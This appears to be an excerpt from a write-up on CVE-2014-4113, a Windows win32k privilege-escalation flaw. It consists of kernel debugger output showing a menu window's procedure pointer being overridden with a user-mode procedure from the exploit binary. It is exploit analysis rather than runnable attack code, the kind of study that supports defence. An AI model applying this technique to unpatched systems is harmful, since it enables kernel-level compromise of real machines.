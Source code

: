 ```
((CVE_2014_4113!tagCWPSTRUCT *)0x76f964)                 : 0x76f964 [Type: tagCWPSTRUCT *]
    [+0x000] lParam           : 0x0 [Type: long]
    [+0x004] wParam           : 0x76f9a4 [Type: unsigned int]
    [+0x008] message          : 0x1eb [Type: unsigned int]
    [+0x00c] hwnd             : 0x601ae [Type: HWND__ *]
0: kd> dt win32k!_HANDLEENTRY 0xff910000+@@(sizeof(win32k!_HANDLEENTRY))*1ae
   +0x000 phead            : 0xfea1a9f0 _HEAD
   +0x004 pOwner           : 0xfe665dd8 Void
   +0x008 bType            : 0x1 ''
   +0x009 bFlags           : 0 ''
   +0x00a wUniq            : 6

0: kd> dt win32k!tagWND -b lpfnWndProc pcls 0xfea1a9f0
   +0x060 lpfnWndProc : 0x9263e37e
   +0x064 pcls        : 0xfea23718

0: kd> ln 0x9263e37e
(9263e37e)   win32k!xxxMenuWindowProc   |  (9263f318)   win32k!IncSFWLockCount
Exact matches:
    win32k!xxxMenuWindowProc (_xxxMenuWindowProc@16)

0: kd> dx -id 0,0,85bc4030 -r1 ((win32k!tagCLS *)0xfea23718)
((win32k!tagCLS *)0xfea23718)                 : 0xfea23718 [Type: tagCLS *]
    [+0x000] pclsNext         : 0xfea1a628 [Type: tagCLS *]
    [+0x004] atomClassName    : 0x8000 [Type: unsigned short]
    [+0x006] atomNVClassName  : 0x8000 [Type: unsigned short]
    [+0x008] fnid             : 0x29c [Type: unsigned short]
    <snipped>
    [+0x016] CSF_flags        : 0x341 [Type: unsigned short]
    [+0x030] style            : 0x20808 [Type: unsigned int]
    <snipped>
    [+0x034] lpfnWndProc      : 0x9263e37e [Type: long (*)(tagWND *,unsigned int,unsigned int,long)]
    <snipped>
    [+0x054] lpszAnsiClassName : 0xfea07458 : "#32768" [Type: char *]
    <snipped>

# Override Menu WNDPROC with user mode WNDPROC.

CVE_2014_4113!WndProcCallbackHook+0x142:
0102f782 mov     esi,esp
0: kd> dt win32k!tagWND -b lpfnWndProc pcls 0xfea1a9f0
   +0x060 lpfnWndProc : 0x0102ae0e
   +0x064 pcls        : 0xfea23718

0: kd> ln 0x0102ae0e
(0102ae0e)   CVE_2014_4113!ILT+11785(_SubClassNewWndProc

```

<br>
